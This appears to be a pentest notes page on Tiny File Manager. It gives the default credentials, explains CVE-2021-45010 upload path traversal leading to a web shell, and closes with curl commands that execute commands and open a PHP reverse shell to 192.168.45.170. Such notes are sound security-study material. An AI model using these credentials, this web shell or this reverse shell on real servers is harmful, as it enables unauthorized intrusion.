


---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# Tiny File Manager

[Tiny File Manager](https://github.com/prasathmani/tinyfilemanager) is a **single-file PHP application** that provides a web-based interface for browsing, uploading, editing, and managing files on a server. It includes built-in authentication, configurable directly in the script, and is often used for lightweight file management without requiring a full CMS or FTP setup. In Tiny File Manager, `index.php` **is the main config file** — it contains `$auth_users` array with bcrypt password hashes.

## Default Credentials

The [default credentials](https://tinyfilemanager.github.io/docs/#line3) are `admin:admin@123` and `user/12345`.

## Authenticated RCE


Based on the [Tiny File Manager Authenticated RCE](https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/) blog post by FebinJ.


In Tiny File Manager versions up to `2.4.7`, an authenticated RCE vulnerability ([CVE-2021-45010](https://nvd.nist.gov/vuln/detail/CVE-2021-45010)) exists due to improper handling of the `fullpath` parameter during file uploads. Authenticated users can exploit this by appending directory traversal sequences (`../`) to the `fullpath` parameter, allowing them to upload files outside the designated upload directory specified in `config.php`. This enables the placement of malicious PHP files within the web root, leading to potential code execution on the server.

To determine the full web root path, attackers can trigger a path disclosure error by providing an invalid URL in the upload feature, which reveals the server's directory structure.&#x20;

<figure><figcaption><p>Source: <a href="https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/">https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/</a></p></figcaption></figure>

Combining this information with the directory traversal vulnerability allows for the upload of a PHP web shell, facilitating RCE.

<figure><figcaption><p>Source: <a href="https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/">https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/</a></p></figcaption></figure>


```bash
# RCE
$ curl -s --path-as-is "http://spx/webshell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Revshell
$ curl -s --path-as-is "http://spx/webshell.php?cmd=php+-r+'\$sock%3dfsockopen(\"192.168.45.170\",80)%3bexec(\"/bin/sh+-i+<%263+>%263+2>%263\")%3b'"
```

